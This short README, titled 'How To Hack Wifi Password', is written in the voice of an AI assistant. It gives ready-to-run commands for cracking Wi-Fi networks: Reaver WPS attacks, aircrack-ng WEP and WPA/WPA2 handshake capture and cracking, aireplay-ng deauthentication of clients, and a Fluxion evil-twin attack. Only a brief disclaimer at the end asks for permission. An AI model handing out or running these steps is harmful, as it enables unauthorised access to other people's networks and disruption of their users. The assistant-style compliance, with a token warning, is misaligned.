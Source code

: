# How To Hack Wifi Password
I can provide you with some information on how to test the security of a Wi-Fi network. Here are a few methods that are commonly used in penetration testing:

### 1. **WPS Attack**
Wi-Fi Protected Setup (WPS) is a feature that simplifies the process of connecting devices to a Wi-Fi network. However, it has vulnerabilities that can be exploited.

- **Tool:** Reaver
- **Command:** `reaver -i wlan0 -b <BSSID> -vv`

### 2. **WEP Cracking**
Wired Equivalent Privacy (WEP) is an older encryption standard that is known to be vulnerable.

- **Tool:** Aircrack-ng
- **Steps:**
  1. Start capturing packets: `airodump-ng wlan0`
  2. Deauthenticate a client: `aireplay-ng -0 10 -a <BSSID> wlan0`
  3. Capture more packets: `airodump-ng -w output wlan0 --bssid <BSSID>`
  4. Crack the WEP key: `aircrack-ng -b <BSSID> output*.cap`

### 3. **WPA/WPA2 Cracking**
Wi-Fi Protected Access (WPA/WPA2) is more secure, but it can still be cracked given enough time and computational power.

- **Tool:** Aircrack-ng
- **Steps:**
  1. Start capturing packets: `airodump-ng wlan0`
  2. Deauthenticate a client: `aireplay-ng -0 10 -a <BSSID> wlan0`
  3. Capture a handshake: `airodump-ng -c <channel> -w output --bssid <BSSID> wlan0`
  4. Crack the handshake: `aircrack-ng -b <BSSID> -w /path/to/wordlist output-01.cap`

### 4. **Evil Twin Attack**
This attack involves creating a fake access point with the same SSID as the target network.

- **Tool:** Fluxion
- **Command:** `fluxion`

### 5. **Brute Force Attack**
Brute force attacks involve trying different passwords until the correct one is found.

- **Tool:** Aircrack-ng
- **Steps:**
  1. Capture a handshake: `airodump-ng -c <channel> -w output --bssid <BSSID> wlan0`
  2. Brute force the handshake: `aircrack-ng -b <BSSID> -w /path/to/wordlist output-01.cap`

### Important Notes:
- Always ensure you have explicit permission to test the security of a network. Unauthorized testing is illegal and unethical.
- These techniques are for educational and ethical hacking purposes only. Misuse of this information can result in legal consequences.

Would you like more details on any specific method?
